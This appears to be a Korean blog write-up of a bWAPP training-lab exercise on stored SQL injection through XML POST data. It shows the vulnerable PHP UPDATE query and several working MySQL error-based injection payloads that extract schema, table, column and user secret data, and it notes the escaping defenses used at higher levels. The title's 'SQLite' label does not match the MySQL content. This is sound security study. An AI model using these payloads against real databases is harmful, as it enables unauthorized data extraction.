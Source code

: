 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (SQLite)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-xml-archive/image.png)
- 해당 Any bugs? 버튼을 클릭해도 아무런 변화가 일어나지 않는다.

![그림 1-2](/assets/image/bwapp/injection/stored-xml-archive/image2.png)
- Burp Suite 를 통해 요청값과 응답값 패킷을 잡아 확해보면
- POST 형식의 XML 데이터를 보내는 걸 알 수 있다.
- Content-type: 부분을 보면 text/xml 인 걸 알 수 있다.

![그림 1-3](/assets/image/bwapp/injection/stored-xml-archive/image3.png)
- login 태그 내에 ‘ 싱글 쿼터를 보내면 DBMS Error을 반환한다.

```php
$sql = "UPDATE users SET secret = '" . $secret . "' WHERE login = '" . $login . "'"
```

- 해당 기능에서 사용되는 SQL 구문은 위와 같다.
- DBMS Error 가 존재하니 Error-Based 공격이 가능하다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)+'
```

![그림 1-4](/assets/image/bwapp/injection/stored-xml-archive/image4.png)
- 위 코드를 주입하면 Error의 내용으로 DB를 출력하고 있다.
- 이와 같은 방식으로 테이블, 컬럼, 데이터등을 추출할 수 있다.

> 해당 쿼리는 login 태그 혹은 secret태그등 둘 다 가능하다. db 질의시 문법을 잘못 주어 에러를 발생시켜 해당 에러의 내용에서 공격자가 원하는 값을 추출하는 방법이기 떄문이다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bWAPP' AND TABLE_NAME='users' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM(SELECT COUNT(*),concat((SELECT CONCAT_WS(0x3a,secret,id) FROM bWAPP.users LIMIT 1,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)+'
```

![그림 1-5](/assets/image/bwapp/injection/stored-xml-archive/image5.png)
- 성공적으로 데이터를 추출했다.
- 하지만 이 때 해당 출력 구간에서 특정 문자열을 넘어가면 error가 발생되지 않는 문제가 생겨
- concat 를 사용하더라도 1개 혹은2개씩 데이터를 조회해야 한다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
